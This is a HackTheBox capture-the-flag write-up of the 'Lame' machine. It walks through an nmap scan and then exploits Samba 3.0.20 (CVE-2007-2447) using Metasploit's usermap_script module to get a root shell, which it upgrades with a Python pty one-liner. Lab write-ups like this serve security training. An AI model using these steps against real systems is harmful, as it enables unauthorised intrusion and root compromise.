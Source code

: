 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Lame"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Lame is an easy HackTheBox machine created by ch4p. It involves exploiting a vulnerable samba server.                                            
img: htb-lame/lame-info-card.png                                                 
tags: [HackTheBox, HTB, Lame, Samba, Writeup, CVE-2007-2447]
---
```


Lame is an easy HackTheBox machine created by [ch4p](https://app.hackthebox.com/users/1). It involves some simple enumeration and the exploitation of a known Samba vulnerability.

# Enumeration 

To kick off this box, let's run a Nmap scan to see what services and ports are open. 

```
nmap -sC -sV 10.129.203.142 -oN top_1000
```

The scan shows that the ports for FTP (21), SSH (22), and Samba (139 & 445) are open. 

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-12T11:43:07-04:00
```

# Exploitation
Samba is infamously known for being chock-full of vulnerabilities. So, I'm going to start by checking for known exploits. After a quick Google search, I found that Samba 3.0.20 is vulnerable to [CVE-2007-2447](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script) A.K.A. "Samba Username Map Script Command Execution". 

This exploit is conveniently a Metasploit module. So, I will use Metasploit to carry out this attack. 

To begin, I'll type `msfconsole` into the commandline. 

From there, I'll find the module by using Metasploit's search feature:

```
msf6 > search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

The exploit is the only one available. To get Metasploit to use this module, type `use 0` and then `show options`. 

You should get something that looks like this:

![msf options]({{site.baseurl}}/assets/img/htb-lame/msf-options.png)   

From here, I'll set the `LHOSTS` and `RHOSTS` parameters. 

- LHOST is your listening address. For most people, this will be equal to your `tun0` value (you can find this by using the `ifconfig` command). 
- RHOSTS is the machine's IP address. 

To set these values, use the following commands: 

_Note: Sub \<ip_address\> for Lame's IP address._ 

```
set RHOSTS <ip_address>
set LHOSTS tun0
```

Once those values are set, we can exploit the machine! Do this by typing `exploit` and pressing `Enter`! If all went well, you should have a root shell on the machine (A.K.A INFINITE POWER :joy:).

_Optional: To make your shell look better, use this Python one-liner:_
```
python -c 'import pty; pty.spawn("/bin/bash");'
```

From here, you can collect the user and root flags by running the following commands.

```
[User] cat cat /home/makis/user.txt
[Root] cat /root/root.txt
```

I hope you enjoyed this writeup! Happy Hacking :) 

